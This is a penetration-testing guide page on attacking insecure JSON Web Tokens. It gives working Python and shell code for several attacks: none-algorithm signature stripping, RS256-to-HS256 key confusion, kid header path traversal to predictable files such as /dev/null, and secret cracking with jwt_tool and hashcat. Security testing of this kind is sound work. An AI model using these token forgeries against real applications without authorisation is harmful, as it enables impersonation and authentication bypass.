 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).

The last part is interesting because, if the parameter is vulnerable to [directory traversal](directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

{% hint style="info" %}
"[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.
{% endhint %}

{% hint style="info" %}
> There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
>
> _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_

The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`
{% endhint %}

{% hint style="info" %}
In some cases, using the trick above will not work, as the file is listed with a size of 0, and some apps could check that the signature file is not empty.

```python
>>> import os
>>> os.path.getsize("/proc/sys/kernel/ftrace_enabled")
0
```

Alternatively, other file could be used:

* some have a content that rarely changes (e.g. old configuration files like`/etc/host.conf`, `/etc/xattr.conf`, ...)
* some have a predictable content (e.g. `/etc/hostname`, JS files in `/var/www/html`, ...)
* some return an empty string (e.g. `/dev/null`) effectively allowing to bypass the signature validation, meaning an empty key could be used for signature.
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt, os
payload = {'key1':'value1', 'key2':'value2'}
with open("path/to/file", 'r') as file:
    data = file.read()
token = jwt.encode(payload, key=data, algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```
{% endcode %}

{% hint style="info" %}
If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.

The same secret value is to be used on [jwt.io](https://jwt.io/).
{% endhint %}

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt\_tool) (Python3) can be used for this purpose.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># crack the secret using dictionnary attack
<strong>jwt_tool.py -v -C -d $wordlist_file "$JWT_value"
</strong>
# use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
<strong>jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
</strong></code></pre>

JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../a-d/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## Resources

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" %}

{% embed url="https://jwt.io/" %}

{% embed url="https://portswigger.net/web-security/jwt" %}

{% embed url="https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6" %}
